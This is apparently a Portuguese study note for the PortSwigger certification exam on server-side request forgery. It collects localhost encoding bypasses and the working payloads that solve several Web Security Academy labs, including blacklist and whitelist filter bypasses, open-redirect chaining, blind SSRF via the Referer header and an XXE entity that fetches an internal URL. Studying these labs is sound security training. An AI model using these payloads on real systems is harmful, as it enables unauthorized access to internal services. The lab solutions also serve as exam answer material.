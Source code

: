 # SSRF - Server Side Request Forgery

Probabilidade: $${\color{yellow}média}$$.

Se você encontrar SSRF no exame, utilize para ler arquivos internos no endereço `localhost:6566`, como designado pela própria PortSwigger.

Algumas alternativas ao localhost e ao 127.0.0.1:
```
2130706433
017700000001
127.1
```

Alguns bypassess não ensinados nos laboratórios:
```
Type in http://2130706433 instead of http://127.0.0.1
️Hex Encoding 127.0.0.1 translates to 0x7f.0x0.0x0.0x1
Octal Encoding 127.0.0.1 translates to 0177.0.0.01
Mixed Encoding 127.0.0.1 translates to 0177.0.0.0x1

https://h.43z.one/ipconverter/
```

O lugar para procurar por SSRF normalmente é em `/product/stock` ou em parâmetros que envolvem URL.

<br>

## Laboratórios

**Basic SSRF Against Another Back-End System**
```
stockApi=http://192.168.0.34:8080/admin

stockApi=http://localhost/admin
```

<br>
<br>

**SSRF with Blacklist-Based Input Filter**

Um método:
```
stockApi=http://127.1/AdMiN/
```

Isso funciona:
```
http://127.1/
```

Mas isso não:
```
http://127.1/admin
```

Então precisar encodar a letra 'a' em URL duas vezes (outro método):
```
http://127.1/%25%36%31dmin
```

<br>
<br>

**SSRF with Filter Bypass via Open Redirection Vulnerability**
```
stockApi=/product/nextProduct?currentProductId=2%26path%3dhttp://192.168.0.12:8080/admin

# Encodado em URL
stockApi=%2fproduct%2fnextProduct%3fcurrentProductId%3d1%26path%3dhttp%253a%2f%2f192.168.0.12%253a8080%2fadmin

# Ou na requisição GET
https://TARGET.net/product/nextProduct?currentProductId=1&path=http%3a//192.168.0.12%3a8080/admin
```

<br>
<br>

**Blind SSRF with Out-of-Band Detection**
```
Referer: http://burpcollaborator
```

<br>
<br>

**SSRF with Whitelist-Based Input Filter**
```
stockApi=http://localhost:80%2523@stock.weliketoshop.net/admin/

# Double URL Decoded
stockApi=http://localhost:80#@stock.weliketoshop.net/admin/
```

<br>
<br>

**Exploiting XXE to Perform SSRF Attacks**
```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://localhost:6566/latest/"> ]>
  <stockCheck>
    <productId>
      &xxe;
    </productId>
    <storeId>
      1
    </storeId>
  </stockCheck> 
```

![image](https://github.com/user-attachments/assets/a36ba2d0-026a-4f43-8e3c-cba411eb11ce)
